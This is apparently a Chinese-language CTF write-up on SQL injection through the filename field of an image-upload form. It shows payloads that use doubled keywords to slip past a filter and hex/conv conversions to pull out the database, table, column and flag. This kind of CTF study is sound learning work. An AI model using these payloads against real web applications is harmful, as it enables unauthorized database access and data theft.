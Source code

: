 ## 题目描述

![image-20210117193823007](\image-1\image-20210117193823007.png)

首先是一个注册界面，填入邮箱密码注册之后，点击login，然后进入到上图的界面，可以选择一个文件进行上传，但是上传文件的后缀名必须为.jpg文件名后缀。

## 御剑扫描后台

使用御剑进行扫描，发现存在includes文件夹：

![image-20210117195054337](\image-1\image-20210117195054337.png)

好像并没有什么用处……

## 使用burp suite拦截包



![image-20210117201930639](\image-1\image-20210117201930639.png)

![image-20210117202133639](\image-1\image-20210117202133639.png)

- 网上的write up查了过滤的规则，我没有弄清楚他是怎么查的，根据intruder里面的功能，对指定的payload查询过滤规则，本题要对filename那里的过滤规则进行查询，因为我们的目标是通过这个网站上传文件之后的回显功能，再根据sql注入，通过回显来查询到我们所需要的信息，比如数据库，表名之类的信息。

- 网上说这个服务器中对filename进行了双写绕过（然后我硬是没有搞明白这一步是怎么弄的，这里还没有搞明白怎么设置过滤）

## sql注入

- 通过回显功能，我们可以将文件名改成

```mysql
a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
```

![image-20210117220936612](\image-1\image-20210117220936612.png)



- 本来是`select database()`便可以得到数据库的名称，但是在这道题中，存在两个问题：

1. 首先，超出一定的长度会出现科学计数法：

![image-20210117221520355](\image-1\image-20210117221520355.png)

所以需要对得到的数据库名进行substr操作得到子字符串。

2. 其次，在使用十六进制的时候，会把出现字母（abcdef）的内容给截掉，所以我们要使用conv函数将十六进制的转化成十进制。

最终通过两个payload得到数据库名：

（在这里有个疑问就是为什么要把select打成selselectect呢？）

```mysql
a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
a' +(selselectect conv(substr(hex(database()),12,15),16,10))+ '.jpg
```

得到的回显结果如下图所示：

![image-20210117221737631](\image-1\image-20210117221737631.png)

- 得到的是十进制的结果，我们要先把这些十进制的结果转化成十六进制，再将十六进制转化成字符串文本内容，得到的就是数据库的名称。

![image-20210117222850309](\image-1\image-20210117222850309.png)

`7765625f7570`

![image-20210117222918722](\image-1\image-20210117222918722.png)

`6c6f6164`

![image-20210117223004406](\image-1\image-20210117223004406.png)

所以数据库的名称为`web_upload`.

- 接下来依次对表名、列名、字段名进行相同的操作得到flag：

**查询表名**

```mysql
a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

 a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA =  'web_upload' limit 1,1)),25,12),16,10))+'.jpg
```

按照上述转换操作得到的结果是：`hello_flag_is_here	`

**查询列名**

```mysql
s'+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),1,12),16,10))+'.jpg

s'+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),13,12),16,10))+'.jpg
```

得到的结果是`i_am_flag`

**查询字段内容**

```mysql
s'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10))+'.jpg

s'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10))+'.jpg

s'+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),25,12),16,10))+'.jpg
```

得到的结果是`!!_@m_Th.e_F!lag`，所以flag就是这个。

